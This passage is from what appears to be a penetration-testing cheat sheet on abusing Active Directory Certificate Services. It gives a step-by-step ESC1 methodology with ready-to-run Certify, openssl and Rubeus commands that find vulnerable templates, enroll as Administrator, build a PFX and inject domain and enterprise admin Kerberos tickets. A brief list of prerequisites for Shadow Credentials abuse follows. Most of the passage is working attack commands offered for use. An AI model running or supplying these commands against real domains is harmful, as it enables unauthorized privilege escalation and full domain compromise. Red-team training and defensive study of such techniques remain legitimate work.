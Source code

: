 ##### Methodology

>   1.  Find vulnerable cert templates.
>   2.  Request a template with the template name and using altname specify the user you want to attack
>   3.  Using openssl generate the pfx from the private key and sign it with a password
>   4.  Using Rubeus request a tgt with the admin pfx and inject it into the session
>   5.  Now we will be able to access the shares of the administrator

##### Binaries

```powershell
# 1. Search for vulnerable certificate templates
# Enumerate the templates
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
Certify.exe find /vulnerable
Certify.exe find /vulnerable /ca:dc.theshire.local\theshire-DC-CA

# 2. Enroll in the template
Certify.exe request /cs:dc.theshire.local\theshire-DC-CA /template:ESC1Template /altname:Administrator

# 3. Change the RSA into a PFX
# Linux - openssl and provide a password
# Paste the Private key in a file named cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Windows - openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

# 4. Request a TGT with the pfx
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:EA.pfx /password:SecretPass@123 /nowrap /ptt
```

### Shadow Credentials

Users and Computer shave `msDS-KeyCredentialLink` attribute that contains the raw public keys of certificate that can be used as an alternative credential.

##### Pre-requisites to abuse Shadow Credentials

-   AD CS (or Key Trust)
-   Support for PKINIT and at least one DC with Windows Server 2016 or above
-   Permissions (`GenericWrite`/`GenericAll`) to modify the `msDS-KeyCredentialLink` attribute of the target object.

